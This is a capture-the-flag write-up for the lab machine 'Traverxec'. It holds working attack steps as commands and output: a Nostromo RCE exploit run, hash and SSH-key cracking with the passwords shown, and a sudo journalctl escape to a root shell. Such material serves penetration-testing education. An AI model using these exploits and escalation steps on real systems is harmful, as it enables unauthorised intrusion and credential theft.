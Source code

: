 # Traverxec

## Gaining Access

```
$ nmap -p- --min-rate 5000 10.129.85.183
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-04 10:24 EDT
Nmap scan report for 10.129.85.183
Host is up (0.0079s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### David White

Port 80 hosts a Portfolio site for a David White:

<figure><img src="../../../.gitbook/assets/image (10) (7).png" alt=""><figcaption></figcaption></figure>

Here are the HTTP headers when visiting the site:

```http
HTTP/1.1 200 OK
Date: Thu, 04 May 2023 14:25:54 GMT
Server: nostromo 1.9.6
Connection: close
Last-Modified: Fri, 25 Oct 2019 21:11:09 GMT
Content-Length: 15674
Content-Type: text/html
```

This version of Nostromo has an RCE vulnerability:

```
$ searchsploit nostromo             
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Nostromo - Directory Traversal Remote Command Execution (M | multiple/remote/47573.rb
nostromo 1.9.6 - Remote Code Execution                     | multiple/remote/47837.py
nostromo nhttpd 1.9.3 - Directory Traversal Remote Command | linux/remote/35466.sh
----------------------------------------------------------- ---------------------------------
```

We can verify that it works by running it:

```
$ python2 47837.py 10.129.85.183 80 id


                                        _____-2019-16278
        _____  _______    ______   _____\       _____\    \_\      |  |      | /    / |    |
  /     /|     ||     /  /     /|/    /  /___/|
 /     / /____/||\    \  \    |/|    |__ |___|/
|     | |____|/ \ \    \ |    | |       |     |  _____   \|     \|    | |     __/ __
|\     \|\    \   |\         /| |\    \  /  | \_____\|    |   | \_______/ | | \____\/    |
| |     /____/|    \ |     | /  | |    |____/|
 \|_____|    ||     \|_____|/    \|____|   | |
        |____|/                        |___|/




HTTP/1.1 200 OK
Date: Thu, 04 May 2023 14:31:57 GMT
Server: nostromo 1.9.6
Connection: close


uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Then, we can get an easy reverse shell by using a `bash` one-liner.&#x20;

<figure><img src="../../../.gitbook/assets/image (39) (8).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Public WWW

We can't capture the user flag yet. Within the `/var/nostromo` directory, there are some `conf` folders.

```
www-data@traverxec:/var/nostromo$ ls -la
total 24
drwxr-xr-x  6 root     root   4096 Oct 25  2019 .
drwxr-xr-x 12 root     root   4096 Oct 25  2019 ..
drwxr-xr-x  2 root     daemon 4096 Oct 27  2019 conf
drwxr-xr-x  6 root     daemon 4096 Oct 25  2019 htdocs
drwxr-xr-x  2 root     daemon 4096 Oct 25  2019 icons
drwxr-xr-x  2 www-data daemon 4096 May  4 10:22 logs

www-data@traverxec:/var/nostromo/conf$ ls -la
total 20
drwxr-xr-x 2 root daemon 4096 Oct 27  2019 .
drwxr-xr-x 6 root root   4096 Oct 25  2019 ..
-rw-r--r-- 1 root bin      41 Oct 25  2019 .htpasswd
-rw-r--r-- 1 root bin    2928 Oct 25  2019 mimes
-rw-r--r-- 1 root bin     498 Oct 25  2019 nhttpd.conf
```

We can try to crack the hash within `.htpasswd`.

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash     
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 AVX 4x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Nowonly4me       (david)     
1g 0:00:00:41 DONE (2023-05-04 10:36) 0.02395g/s 253371p/s 253371c/s 253371C/s Noyoudo..Novaem
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Afterwards, we can read the configuration files.

```
# HOMEDIRS [OPTIONAL]

homedirs                /home
homedirs_public         public_www
```

I searched a bit on Nostromo and this configuration, and this:

{% embed url="https://book.dragonsploit.com/web-application-testing/nostromo" %}

Basically, this allows for us to view the user's home directory by accessing `~david`. When accessed, this is what I get:

<figure><img src="../../../.gitbook/assets/image (40).png" alt=""><figcaption></figcaption></figure>

There was also a hint that a `public_www` exists in the user's directory.&#x20;

```
www-data@traverxec:/var/nostromo$ cd /home/david/public_www
www-data@traverxec:/home/david/public_www$ ls -la
total 16
drwxr-xr-x 3 david david 4096 Oct 25  2019 .
drwx--x--x 5 david david 4096 Oct 25  2019 ..
-rw-r--r-- 1 david david  402 Oct 25  2019 index.html
drwxr-xr-x 2 david david 4096 Oct 25  2019 protected-file-area
```

Within this, there was a file that contained SSH Identity files.

```
www-data@traverxec:/home/david/public_www/protected-file-area$ ls -la
total 16
drwxr-xr-x 2 david david 4096 Oct 25  2019 .
drwxr-xr-x 3 david david 4096 Oct 25  2019 ..
-rw-r--r-- 1 david david   45 Oct 25  2019 .htaccess
-rw-r--r-- 1 david david 1915 Oct 25  2019 backup-ssh-identity-files.tgz
```

I transferred this back to my machine via `nc`, and then opened it with `tar`.&#x20;

```
$ tar zxvf backup.tgz       
home/david/.ssh/
home/david/.ssh/authorized_keys
home/david/.ssh/id_rsa
home/david/.ssh/id_rsa.pub
```

The `id_rsa` key was password protected, but since we have a password from earlier, we can `ssh2john` > `john` it.&#x20;

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash     
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
hunter           (id_rsa)     
1g 0:00:00:00 DONE (2023-05-04 10:42) 100.0g/s 16000p/s 16000c/s 16000C/s carolina..david
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Then, we can use `openssl` with the password to write it and SSH in.

```
$ openssl rsa -in id_rsa -out decrypted        
Enter pass phrase for id_rsa:
writing RSA key
$ chmod 600 decrypted; ssh -i decrypted david@10.129.85.183
```

### Root Shell

There are some interesting files within the user's home directory.

```
david@traverxec:~/bin$ ls -la
total 16
drwx------ 2 david david 4096 Oct 25  2019 .
drwx--x--x 5 david david 4096 Oct 25  2019 ..
-r-------- 1 david david  802 Oct 25  2019 server-stats.head
-rwx------ 1 david david  363 Oct 25  2019 server-stats.sh
```

Here's the `bash` script contents:

```bash
david@traverxec:~/bin$ cat server-stats.sh 
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```

It seems that the user can execute `sudo` for `journalctl`. Based on GTFOBins, we just need to run this.&#x20;

```bash
sudo journalctl
!/bin/sh
```

However, because we don't have the credentials to run `sudo`, what we can do is execute the `sudo` command and then run `!/bin/sh`.

```
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
!/bin/sh
```

<figure><img src="../../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>
